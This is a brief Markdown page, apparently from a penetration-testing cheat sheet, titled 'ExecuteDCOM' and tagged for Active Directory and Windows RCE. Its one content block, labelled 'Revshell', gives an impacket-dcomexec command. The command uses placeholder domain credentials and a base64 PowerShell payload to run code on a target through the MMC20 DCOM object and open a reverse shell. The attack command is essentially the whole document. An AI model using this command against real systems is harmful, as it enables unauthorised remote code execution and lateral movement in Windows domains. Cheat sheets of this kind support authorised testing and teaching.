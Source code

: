 ```yaml
---
title: "ExecuteDCOM"
date: 2024-8-3
tags: ["Executedcom", "Active Driectory", "Windows", "RCE"]
---
```


### Abuse #1: ExecuteDCOM

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Revshell
impacket-dcomexec '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>' '<POWERSHELL_3_BASE64>' -silentcommand -object MMC20
```

{{< /tabcontent >}}

